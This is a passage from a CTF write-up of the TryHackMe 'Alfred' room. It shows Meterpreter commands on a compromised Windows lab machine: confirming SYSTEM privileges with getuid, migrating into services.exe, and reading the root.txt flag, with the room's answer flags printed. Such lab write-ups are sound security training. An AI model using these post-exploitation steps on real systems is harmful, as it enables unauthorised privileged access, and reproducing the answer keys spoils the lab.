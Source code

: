 Running the `getuid` command, we can confirm that we have admin privileges:
```shell-session
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

> What is the output when you run the getuid command?
>
> Answer: `NT AUTHORITY\SYSTEM`

As the task advises us to do, we'll now migrate this process:
```shell-session
meterpreter > ps
...

668   580   services.exe   x64   0        NT AUTHORITY\SYSTEM    C:\Windows\System32\se
                                                                  rvices.exe
...

meterpreter > migrate 668
[*] Migrating from 2176 to 668...
[*] Migration completed successfully.
meterpreter > cat "C:\Windows\System32\config\root.txt" 
��dff0f748678f280250f25a45b8046b4a
```

> read the root.txt file at `C:\Windows\System32\config`
>
> Answer: `dff0f748678f280250f25a45b8046b4a`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Alfred](https://tryhackme.com/room/alfred)
